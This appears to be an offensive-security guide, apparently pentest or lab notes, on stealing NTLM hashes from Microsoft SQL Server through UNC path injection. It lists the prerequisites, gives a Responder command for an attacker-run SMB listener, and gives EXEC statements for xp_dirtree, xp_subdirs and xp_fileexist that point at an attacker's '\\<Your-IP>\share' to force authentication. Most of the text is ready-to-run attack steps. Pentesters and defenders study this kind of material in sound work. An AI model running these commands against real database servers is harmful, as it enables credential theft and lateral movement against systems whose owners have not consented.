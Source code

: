 ### ✅ Requirements
    
    
| Requirement | Description |
| --- | --- |
| MSSQL server accessible | You must be able to interact with the MSSQL instance (SQLi, RCE, or valid login). |
| Ability to run `xp_*` procedures | The user must have permission to execute extended stored procedures like `xp_dirtree`. |
| Attacker-controlled SMB server | Tools like **Responder** or **Impacket SMB server** running on attacker's machine. |
| Outbound SMB allowed | The MSSQL server must be able to make outbound SMB requests (TCP 445). |


### ⚙️ Extended Stored Procedures
    
These are **undocumented stored procedures** in SQL Server that interact with the filesystem and **accept UNC paths** (which makes the injection possible):

| Procedure | Description |
| --- | --- |
| `xp_fileexist` | Checks if a file or directory exists (returns result set). |
| `xp_dirtree` | Lists directories and subdirectories of a given path. |
| `xp_subdirs` | Returns subdirectories for a given path. |


### 🔍 Verifying Usage (Optional)
    
Run this to check if `xp_fileexist` works locally:

```sql
EXEC xp_fileexist 'C:\Windows\System32\drivers\etc\hosts';
```

![image.png](https://file.notion.so/f/f/2ab6ea37-5cd9-465e-a988-79fae76207cd/d48296aa-1276-4bd6-bfc0-3317a599039b/image.png?table=block&id=1d385370-06ca-8000-bff4-ceae98d4831f&spaceId=2ab6ea37-5cd9-465e-a988-79fae76207cd&expirationTimestamp=1744516800000&signature=5eKiO6A1LvXBA2xQliKV3jknkNhxSPmja_1b3Uvp2hQ&downloadName=image.png)
If the result shows `1`, the function is enabled and working.


### 🚨 UNC Injection for Hash Capture
    
1. Set up Responder to act as an SMB server on your machine:

    ```bash
    sudo responder -I tun0 -v
    ```

2. Then run **any of the following** on the MSSQL server:

    ```sql
    EXEC xp_dirtree '\\<Your-IP>\share';
    EXEC xp_subdirs '\\<Your-IP>\share';
    EXEC xp_fileexist '\\<Your-IP>\share';
    ```
